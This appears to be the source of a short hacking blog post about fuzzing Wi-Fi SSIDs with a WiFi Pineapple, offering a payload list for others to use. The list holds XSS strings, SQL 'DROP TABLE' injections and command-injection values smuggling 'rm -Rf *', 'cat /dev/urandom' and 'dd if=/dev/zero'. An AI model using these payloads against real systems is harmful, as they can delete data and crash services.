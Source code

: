 ```yaml
---
layout: post
title:  "Adventures with WifiPineapple Fuzzing SSID"
subtitle: "Wifi SSID White Noise, fuzzing the SSID"
categories: wifi hacking
published: true
comments: true
tags:
 - Wifi
 - Hacking
 - WifiPineapple
---
```


As mentioned we used a fuzz list for the SSID to try and break the Scroll of Sheep. For others to use it has been included below. This will mess with the data, and handling the data at any future point, would need to be handled carefully.

{% highlight bash linenos %}
"><script>alert(1);//
"><script>alert(1)</script>
'; DROP TABLE *-- 
'); DROP TABLE *-- 
' AND DROP TABLE *-- 
') AND DROP TABLE *-- 
'; DROP TABLE *#
'); DROP TABLE *# 
' AND DROP TABLE *#
') AND DROP TABLE *#
;rm -Rf *;
`rm -Rf *`
$(rm -Rf *)
;cat /dev/urandom;
`cat /dev/urandom`
;dd if=/dev/zero of=rick.dat;
`dd if=/dev/zero of=rick.dat`
{% endhighlight %}
